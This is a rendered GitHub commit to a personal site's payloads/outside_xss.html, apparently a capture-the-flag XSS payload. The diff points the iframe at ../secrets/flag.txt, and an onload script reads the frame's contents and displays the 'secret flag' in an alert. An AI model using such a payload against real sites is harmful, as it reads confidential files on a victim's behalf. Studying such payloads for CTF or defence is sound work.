

Before and after one commit to itssixtyn3in/itssixtyn3in.github.io, a plain HTML site: page payloads/outside_xss.html in a window 1280 px wide. Shown: the full height of the page, 0-640 px from the left. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update outside_xss.html

```diff
--- a/payloads/outside_xss.html
+++ b/payloads/outside_xss.html
@@ -4,7 +4,7 @@
 <body>
 <br><BR><BR><BR>
 <h1>pwn<br>
-<iframe onload=j() src="flag.txt">xssxsxxsxs</iframe>
+<iframe onload=j() src="../secrets/flag.txt">xssxsxxsxs</iframe>
 <script type="text/javascript">
     function j(){alert('The secret flag is:\n\n '+frames[0].document.body.innerText)}
 </script>
```
